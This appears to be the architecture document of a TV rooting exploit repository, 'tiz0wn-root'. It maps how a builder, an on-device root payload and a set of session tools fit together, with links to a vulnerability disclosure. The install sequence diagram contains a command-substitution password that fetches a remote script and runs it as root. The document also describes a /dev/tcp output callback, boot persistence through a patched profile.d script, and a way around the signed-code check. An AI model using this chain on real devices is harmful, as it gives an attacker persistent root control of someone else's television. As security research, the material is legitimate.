



# Architecture

How the `tiz0wn-root` chain is put together: what runs on the operator's host,
what runs on the owned TV, what crosses the network between them, and where each
piece lives in the tree. Read this alongside the narrative in the
[top-level README](../README.md) and the source trace in
[`DISCLOSURE.md`](DISCLOSURE.md); this file is the map, those are the story.

All offsets, hashes and addresses are specific to one owned Q60T and one exact
build. Nothing here contacts a TV on its own — the operator does, by hand, once.

## In one paragraph

Everything the operator runs lives under
[`exploits/tiz0wn-root/`](../exploits/tiz0wn-root/) and splits three ways:
`builder/` turns a vendor carrier file plus an offset read from the official
firmware image into a self-verifying **run** (a patch, a payload tar, a manifest
and a baked `setup.sh`); `payload/` is the code that actually executes on the TV
as root (`setup.sh` installs, `boot` fires once per boot, `agent` answers jobs);
and `live/` is the session tooling that drives an already-rooted TV over SDB. The
entry is the vendor's own Remote PC / CIFS credential sink, which runs a command
substitution from the password field as UID 0. Persistence is a same-size,
hash-gated block overwrite of one `/etc/profile.d` script that the boot sequence
sources. UEP (signed-code enforcement) is never patched: every step is a script
invoked **by content** (`sh -c "$(cat …)"`), which UEP does not inspect.

## System overview

> Which pieces run where, and what crosses the wire.



The trust boundary is the TV's own LAN. The operator host only ever **serves**
files and **receives** callbacks; it never pushes to the TV. The one privileged
step is the CIFS sink (highlighted): the operator pastes a crafted password into
the vendor's Remote PC feature, and the vendor's own root `bash -c` evaluates the
command substitution inside it. From there the fetched `setup.sh` does the rest
as root. After install, the TV needs no listener — the boot hook starts the
`agent`, and the operator reaches it either locally or through the SDB injection
in `live/`.

**Where in the code**
- [exploits/tiz0wn-root/builder/carrier.py](../exploits/tiz0wn-root/builder/carrier.py) — locate the carrier, build the same-size patch, build/verify the manifest
- [exploits/tiz0wn-root/builder/serve.py](../exploits/tiz0wn-root/builder/serve.py) — `build-run`, the delivery HTTP server, and the password string
- [exploits/tiz0wn-root/live/sink.py](../exploits/tiz0wn-root/live/sink.py) — the minimal LAN HTTP sink for the first fetch
- [exploits/tiz0wn-root/payload/](../exploits/tiz0wn-root/payload/) — everything that runs on the TV

## User journey 1: one-shot install

> What happens from the single pasted password to persistent root.

```mermaid
sequenceDiagram
  autonumber
  actor Op as Operator
  participant Srv as serve.py (host)
  participant Sink as Remote PC/CIFS
  participant Setup as setup.sh (root)
  participant Rootfs as mmcblk0p19
  Op->>Srv: build-run (offline) then serve --ack
  Op->>Sink: paste password = $(curl .../d >/tmp/x$$)$(. /tmp/x$$)
  Sink->>Srv: GET /d  (fetch setup.sh as root)
  Srv-->>Sink: setup.sh with hashes baked in
  Sink->>Setup: source it (UID 0)
  Setup->>Srv: GET /payload.tar
  Srv-->>Setup: payload.tar (verified vs TIZ0WN_TAR_SHA256)
  Setup->>Rootfs: read window, hash-gate, backup, write patch
  Rootfs-->>Setup: re-read verifies patch_sha256
  Setup->>Setup: install boot/agent/rollback, start agent
```

The password (step 2) is kept inside the proven character grammar — two adjacent
command substitutions: fetch to tmpfs, then dot-source it (`build_password` in
[serve.py](../exploits/tiz0wn-root/builder/serve.py)). `setup.sh` runs numbered
stages S0–S8; the defining rule is that **no block is written until the whole
window hash at the computed offset matches the manifest** (step 8), and the
backup is re-read and verified before the write it protects. A corrupted or
swapped payload fails the baked-in hash checks and aborts before touching the
rootfs. Re-running is safe: an intact patch is detected and the write skipped.

**Where in the code**
- [exploits/tiz0wn-root/builder/serve.py](../exploits/tiz0wn-root/builder/serve.py) — `build_password`, `render_setup`, `build_run`, the `Handler`
- [exploits/tiz0wn-root/payload/setup.sh](../exploits/tiz0wn-root/payload/setup.sh) — stages S0 preflight → S8 markers
- [exploits/tiz0wn-root/builder/carrier.py](../exploits/tiz0wn-root/builder/carrier.py) — `build_patch`, `build_manifest`, `window_for`
- [docs/DISCLOSURE.md](DISCLOSURE.md) — the CIFS sink source trace

## User journey 2: root on demand

> How the operator runs a command as root after install, with no TV listener.



There is no inbound port on the TV. `cmd/in` is `0777` on purpose, so anything
already local at `sdk` level (or the SDB injection in `live/`) can drop a job
file; the `agent` picks up only fully-renamed `*.sh` files, runs each by content
with a per-run token framing and a `JOB_TIMEOUT` watchdog, and writes the result
to `cmd/out`. `q.sh` carries the output back over a single `/dev/tcp` callback to
`listen.py`, which accepts only the configured peer IP and a fresh per-call
token. The `0777` trade-off is stated explicitly in the agent header: whoever can
write that directory runs root commands.

**Where in the code**
- [exploits/tiz0wn-root/live/job.sh](../exploits/tiz0wn-root/live/job.sh) — submit one job, poll, parse the framed result
- [exploits/tiz0wn-root/live/q.sh](../exploits/tiz0wn-root/live/q.sh) — SDB `appinstall` injection + `/dev/tcp` callback
- [exploits/tiz0wn-root/live/listen.py](../exploits/tiz0wn-root/live/listen.py) — the bounded callback receiver (peer + token gated)
- [exploits/tiz0wn-root/payload/agent](../exploits/tiz0wn-root/payload/agent) — the job loop, framing, watchdog, single-instance pidfile

## Persistence: once per boot

> How root survives a power cycle without a patched kernel or a running service.



`tizen-system-env.service` → `/etc/profile` → `profile.d` sources the patched
carrier line every boot (and more than once, because `env -i` wipes any guard
variable between the unit's two `ExecStart` invocations). The `boot` hook
therefore guards itself with an **atomic `mkdir` in tmpfs** rather than a shell
variable, backs off after three boots that never reach a marker (so a broken hook
can't loop the TV forever), self-heals the account if one was armed, records a
boot marker, and content-invokes the `agent`. The carrier line is a `.`-source,
which UEP never inspects — the whole reason the step is a content invocation and
not a bare path.

**Where in the code**
- [exploits/tiz0wn-root/builder/carrier.py](../exploits/tiz0wn-root/builder/carrier.py) — `HOOK_LINE`, `build_patch` (same-size, if/fi balanced, padded)
- [exploits/tiz0wn-root/payload/boot](../exploits/tiz0wn-root/payload/boot) — run-once lock, try counter, self-heal, marker, agent start
- [exploits/tiz0wn-root/payload/rootlogin](../exploits/tiz0wn-root/payload/rootlogin) + [builder/accounts.py](../exploits/tiz0wn-root/builder/accounts.py) — the optional `sdk`-as-root login patch
- [exploits/tiz0wn-root/payload/smack-allow](../exploits/tiz0wn-root/payload/smack-allow) — SMACK rules for a root agent's loopback to an app socket

## Code map

Ordered the way a newcomer should read it.

| Path | Responsibility |
|---|---|
| [README.md](../README.md) | The research narrative, results, the three-route comparison, attribution |
| [docs/DISCLOSURE.md](DISCLOSURE.md) | The vulnerability report: CIFS sink source trace, timeline, fix guidance |
| [docs/firmware-analysis.md](firmware-analysis.md) | The image analysis the persistence offset is read from |
| [exploits/tiz0wn-root/builder/carrier.py](../exploits/tiz0wn-root/builder/carrier.py) | Same-size patch, carrier locate, manifest build/verify (offline) |
| [exploits/tiz0wn-root/builder/serve.py](../exploits/tiz0wn-root/builder/serve.py) | `build-run`, the password string, the delivery HTTP server |
| [exploits/tiz0wn-root/builder/accounts.py](../exploits/tiz0wn-root/builder/accounts.py) | The `sdk`/`shadow` same-length window patch and its gates |
| [exploits/tiz0wn-root/payload/setup.sh](../exploits/tiz0wn-root/payload/setup.sh) | On-device installer: fetch, hash-gate, backup, write, verify, install |
| [exploits/tiz0wn-root/payload/boot](../exploits/tiz0wn-root/payload/boot) | Boot hook: run-once, self-heal, start the agent |
| [exploits/tiz0wn-root/payload/agent](../exploits/tiz0wn-root/payload/agent) | On-demand root channel: `cmd/in` → run by content → `cmd/out` |
| [exploits/tiz0wn-root/payload/](../exploits/tiz0wn-root/payload/) | `probe`, `rollback`, `restore`, `rootlogin`, `smack-allow`, `status`, `uninstall` |
| [exploits/tiz0wn-root/live/](../exploits/tiz0wn-root/live/) | Session tooling: `q.sh`, `job.sh`, `listen.py`, `sink.py` |
| [exploits/tiz0wn-root/tests/](../exploits/tiz0wn-root/tests/) | Offline contracts for the builder, payload, carrier and accounts |
| [docs/trigger-grammar.md](trigger-grammar.md) | Measured password-field character classes, proven and rejected |
| [docs/privileged-services.md](privileged-services.md) | Privileged-service inventory: shell-argv vs argv-direct sinks |
